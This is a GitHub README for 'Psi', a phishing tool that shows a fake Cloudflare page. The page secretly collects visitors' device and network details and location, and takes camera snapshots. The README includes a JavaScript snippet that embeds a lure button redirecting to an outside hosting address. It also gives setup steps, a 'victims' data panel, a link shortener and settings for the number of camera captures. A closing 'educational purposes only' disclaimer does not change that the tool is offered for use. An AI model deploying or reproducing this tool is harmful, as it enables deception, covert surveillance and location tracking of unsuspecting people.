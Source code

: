 
<h1 align='center'>Ψ</h1>

<h2 align='center'>Information Gathering Through Link</h1>

<div align="center">



</div>

## to add a button for grab cam on a website
use this javascript in the html or save it in script.js files and add 
```html
<script src="script.js"></script>

```js
function redirectToChat() {
    window.location.href = "https://psi.juliettemapuche.repl.co";
}

var chatButton = document.createElement("button");
chatButton.innerHTML = "Accéder au Chat";

chatButton.style.backgroundColor = "#007BFF";
chatButton.style.color = "white";
chatButton.style.padding = "10px 20px";
chatButton.style.border = "none";
chatButton.style.borderRadius = "5px";
chatButton.style.cursor = "pointer";
chatButton.style.fontWeight = "bold";

chatButton.addEventListener("click", redirectToChat);

document.body.appendChild(chatButton);
```
## Specifications
 * It shows a fake cloudflare under attack page and grabs the information.
 * Gets The Information About browser and Device of User.
 * Get the exact location coordinates.
 * Even if Victim Uses VPN and doesn't allow the location permission you are able to see which country he resides.
 * Network Information and all the audio and camera devices connected to the system.
 * Snaps the picture from camera.
---
<center> <img src=./.github/png.png ></center>

## How to use
 [![Run on Repl.it](https://repl.it/badge/github/tucommenceapousser/Psi)](https://repl.it/github/tucommenceaousser/Psi)
 ### Run on your Local Machine
 * You need to have `Node.js` installed.
 1. Clone the repo using `git clone https://github.com/tucommenceapousser/Psi`
 1. `cd Psi`
 1. `npm install` 
 1. `npm start`
 1. The app will be running at `http://localhost:5000`
 1. For seeing the victims data visit `http://localhost:5000/victims`
---

## short url
you can use url shortener
```bash
node url.js
```

## reset victims data on the panel
```bash
node reset.js
```


## Configuration
 * The `app.js` file contains `config` variable.
```js
var config={
location:true,
camera:true,
camsnaps:4,
redirectURL:"https://google.com"
}
```

```js
location:true
//Can be true or false
``` 
* Set it to `true` , if you want to grab victims location coordinates.

```js
camera:true
//Can be true or false
``` 
* Set it to `true` , If you want to capture images from victims camera.
 
```js
camsnaps:2

``` 
* Set the number of images you want to capture

```js
redirectURL: "https://xxxxxxx.xxx"
```
* The website where you want the user to be redirected after getting information.


### Credits
 * [TechChip](https://github.com/techchipnet/CamPhish) (For His Camphish)



### ❤️Supporters❤️
[![Stargazers repo roster for @tucommenceapousser/Psi](https://reporoster.com/stars/dark/tucommenceapousser/Psi)](https://github.com/tucommenceapousser/Psi/stargazers)

[![Forkers repo roster for @tucommenceapousser/Psi](https://reporoster.com/forks/dark/tucommenceapousser/Psi)](https://github.com/tucommenceapousser/Psi/network/members)

## DISCLAIMER
<p align="center">
 TO BE USED FOR EDUCATIONAL PURPOSES ONLY

</p>



The use of the PSI is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. Please read [LICENSE](LICENSE).



